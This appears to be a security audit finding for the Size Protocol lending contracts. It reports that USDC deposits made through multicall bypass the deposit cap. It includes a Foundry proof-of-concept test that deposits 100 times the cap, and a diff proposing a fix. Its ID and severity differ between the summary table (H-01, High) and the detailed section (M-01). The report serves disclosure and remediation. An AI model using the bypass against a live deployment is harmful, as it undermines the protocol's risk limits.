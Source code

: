 # About **Size Protocol**

# Findings Summary

| ID     | Title                   | Severity | Status |
| ------ | ----------------------- | -------- | ------ |
| [H-01] | Deposits of underlying borrow token via multicall can go above the cap | High | ✅    |

# Detailed Findings

# [M-01] Deposits of underlying borrow token via multicall can go above the cap

## Impact
The identified bug allows users to bypass the underlying borrow token (USDC) deposit cap when depositing via multicall. This can lead to an uncontrolled inflow of tokens into the protocol.

## Proof of Concept
Step by step walkthrough of the bug.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import {BaseTest} from "@test/BaseTest.sol";

import {IERC20Metadata} from "@openzeppelin/contracts/token/ERC20/extensions/IERC20Metadata.sol";

import {Errors} from "@src/libraries/Errors.sol";
import {DepositParams} from "@src/libraries/actions/Deposit.sol";

contract DepositMulticallTest is BaseTest {
    function test_Multicall_deposit_via_multicall_bypasses_cap() public {
        vm.startPrank(alice);

        uint256 amount = size.riskConfig().borrowATokenCap * 100; // 100x the cap
        address token = address(usdc);

        deal(token, alice, amount);
        IERC20Metadata(token).approve(address(size), amount);

        assertEq(size.getUserView(alice).borrowATokenBalance, 0);

        bytes[] memory data = new bytes[](1);
        data[0] = abi.encodeCall(size.deposit, (DepositParams({token: token, amount: amount, to: alice})));
        bytes[] memory results = size.multicall(data);

        assertEq(results.length, 1);
        assertEq(results[0], bytes(""));

        assertEq(size.getUserView(alice).borrowATokenBalance, amount);
    }

    function test_Deposit_deposit_does_not_bypass_cap() public {
        vm.startPrank(alice);

        uint256 cap = size.riskConfig().borrowATokenCap;

        uint256 amount = cap * 100; // 100x the cap
        address token = address(usdc);

        deal(token, alice, amount);
        IERC20Metadata(token).approve(address(size), amount);

        assertEq(size.getUserView(alice).borrowATokenBalance, 0);

        vm.expectRevert(abi.encodeWithSelector(Errors.BORROW_ATOKEN_CAP_EXCEEDED.selector, cap, amount));
        size.deposit(DepositParams({token: token, amount: amount, to: alice}));
    }
}
```

## Tools Used
Manual Review, Foundry

## Recommended Mitigation Steps
Consider changing the following lines in [Multicall.sol#L26-45](https://github.com/code-423n4/2024-06-size/blob/main/src/libraries/Multicall.sol#L26-L45).
```diff
    function multicall(State storage state, bytes[] calldata data) internal returns (bytes[] memory results) {
        state.data.isMulticall = true;

-       uint256 borrowATokenSupplyBefore = state.data.borrowAToken.balanceOf(address(this));
+       uint256 borrowATokenSupplyBefore = state.data.borrowAToken.totalSupply();
        uint256 debtTokenSupplyBefore = state.data.debtToken.totalSupply();

        results = new bytes[](data.length);
        for (uint256 i = 0; i < data.length; i++) {
            results[i] = Address.functionDelegateCall(address(this), data[i]);
        }

-       uint256 borrowATokenSupplyAfter = state.data.borrowAToken.balanceOf(address(this));
+       uint256 borrowATokenSupplyAfter = state.data.borrowAToken.totalSupply();
        uint256 debtTokenSupplyAfter = state.data.debtToken.totalSupply();

        state.validateBorrowATokenIncreaseLteDebtTokenDecrease(
            borrowATokenSupplyBefore, debtTokenSupplyBefore, borrowATokenSupplyAfter, debtTokenSupplyAfter
        );

        state.data.isMulticall = false;
    }
```